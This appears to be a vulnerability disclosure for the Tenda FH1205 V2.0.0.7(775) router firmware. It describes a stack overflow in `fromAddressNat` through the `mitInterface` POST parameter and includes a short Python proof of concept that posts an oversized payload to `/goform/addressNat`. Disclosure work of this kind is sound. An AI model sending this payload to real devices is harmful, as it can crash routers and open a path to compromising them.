 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v2` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mitInterface` can trigger this security vulnerability.

![image-20240319225248356](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225248356.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320103757286](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320103757286.png)
